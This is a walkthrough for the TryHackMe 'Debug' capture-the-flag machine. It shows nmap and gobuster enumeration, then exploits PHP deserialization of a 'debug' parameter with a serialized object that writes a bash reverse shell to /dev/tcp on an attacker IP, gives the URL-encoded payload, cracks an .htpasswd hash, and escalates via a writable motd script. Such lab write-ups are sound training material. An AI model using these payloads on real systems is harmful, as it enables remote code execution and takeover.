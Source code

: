 # Debug : 
## Linux Machine CTF! You'll learn about enumeration, finding hidden password files and how to exploit php deserialization!

#### [TryHackMe](https://tryhackme.com)

```
Hey everybody!

Welcome to this Linux CTF Machine!

The main idea of this room is to make you learn more about php deserialization!

I hope you enjoy your journey :)
```


![04878cdb1624bcc08af74122f6b68a88](https://user-images.githubusercontent.com/58278761/113150929-439daf80-923d-11eb-8d82-ac5ae0fd1b35.jpeg)



As a hint from the Creator, we will be facing a PHP Deserialization.

## Enumeration
                              So Lets start with nmap
							
```bash
# Nmap 7.91 scan initiated Tue Mar 30 23:07:31 2021 as: nmap -sC -sV -vv -o Inital_nmap 10.10.234.104
Nmap scan report for 10.10.234.104
Host is up, received echo-reply ttl 63 (0.16s latency).
Scanned at 2021-03-30 23:07:32 EEST for 13s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDar9Wvsxi0NTtlrjfNnap7o6OD9e/Eug2nZF18xx17tNZC/iVn5eByde27ZzR4Gf10FwleJzW5B7ieEThO3Ry5/kMZYbobY2nI8F3s20R8+sb6IdWDL4NIkFPqsDudH3LORxECx0DtwNdqgMgqeh/fCys1BzU2v2MvP5alraQmX81h1AMDQPTo9nDHEJ6bc4Tt5NyoMZZSUXDfJRutsmt969AROoyDsoJOrkwdRUmYHrPqA5fvLtWsWXHYKGsWOPZSe0HIq4wUthMf65RQynFQRwErrJlQmOIKjMV9XkmWQ8c/DqA1h7xKtbfeUYa9nEfhO4HoSkwS0lCErj+l9p8h
|   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA7IA5s8W9jhxGAF1s4Q4BNSu1A52E+rSyFGBYdecgcJJ/sNZ3uL6sjZEsAfJG83m22c0HgoePkuWrkdK2oRnbs=
|   256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGXyfw0mC4ho9k8bd+n0BpaYrda6qT2eI1pi8TBYXKMb
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 30 23:07:45 2021 -- 1 IP address (1 host up) scanned in 14.22 seconds
```
 
 **We Have 2 Open ports:** 
 * 80 : http
 * 22 : ssh 
 
checking the http we get The Default Apache Page , and there is nothing usefull here; 
lets try to see if there any directories in the site ,



```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.234.104/
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/SecLists-master/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2021/03/30 23:11:06 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.html (Status: 403)
/backup (Status: 301)
/grid (Status: 301)
/index.html (Status: 200)
/index.php (Status: 200)
/javascript (Status: 301)
/javascripts (Status: 301)
/message.txt (Status: 200)
/server-status (Status: 403)
```
 
 
 As we can see there is some intresting files here :
 **index.php - backup - message.txt** 
 
 first lets see what inside the backup ...
 
 
![Screenshot from 2021-03-31 03-13-38](https://user-images.githubusercontent.com/58278761/113151090-6c25a980-923d-11eb-8978-73f04f44db59.png)


 
 it seems that we have a source code for the index.php website,
 by checking the source code we can identify where is the vulnerable code ...
 
 
 
![Pasted image 20210331033918](https://user-images.githubusercontent.com/58278761/113151201-83fd2d80-923d-11eb-836d-e0199f1644d2.png)

 
 
 As we Can see here we have debug parameter that being unserialized ,
 and we have one of the magic method  is the "__destruct()"
 
A very good Resource for PHP Serialization [Here](https://notsosecure.com/remote-code-execution-via-php-unserialize/)
 
the destruct method is Taking $form_file as file name , and $message variable as its value 
and creating a file in the same directory
 
 so we can write a php code to generate a serialized object that will create a php reverse shell file as bellow :
 
 
 ```php
 <?php
class FormSubmit
{
	public $form_file = 'shell.php';
	public $message = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/ATTACKER-IP/1337 0>&1\'");';
}
print urlencode(serialize(new FormSubmit));

?>
```

**payload:**
```bash
O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A10%3A%22shell2.php%22%3Bs%3A7%3A%22message%22%3Bs%3A70%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.8.94.192%2F1337+0%3E%261%27%22%29%3B%22%3B%7D
```

as we seen above the destruct method now will create a shell.php with the message as its contents, 

setup a listener and  pass the payload to "debug" parameter then navigate to /shell.php, you should catch a shell !



# User

Manually Checking the html directory we see that we got .htapasswd as the creator 
mentioned (hidden) passwords


![Pasted image 20210331040049](https://user-images.githubusercontent.com/58278761/113151253-924b4980-923d-11eb-924d-8913704b4ddd.png)



* well the password is hashed, we can crack it with john using rockyou


![Pasted image 20210331040832](https://user-images.githubusercontent.com/58278761/113151284-9aa38480-923d-11eb-942b-0901d443f4f7.png)



# Root 


root left a message to james ,, 


![Pasted image 20210331041225](https://user-images.githubusercontent.com/58278761/113151344-a727dd00-923d-11eb-959c-b9342f64c135.png)



so James can modify the welcome message in ssh that located in ```/etc/update-motd.d/00-header```

Here you can see how you can exploit this by adding a reverseshell or by simply adding SUID to /bin/bash like this 



![Pasted image 20210331042420](https://user-images.githubusercontent.com/58278761/113151382-af801800-923d-11eb-83d1-517c83a8ad0c.png)



# voilà

![Pasted image 20210331042824](https://user-images.githubusercontent.com/58278761/113151405-b60e8f80-923d-11eb-973c-e286b516abf3.png)
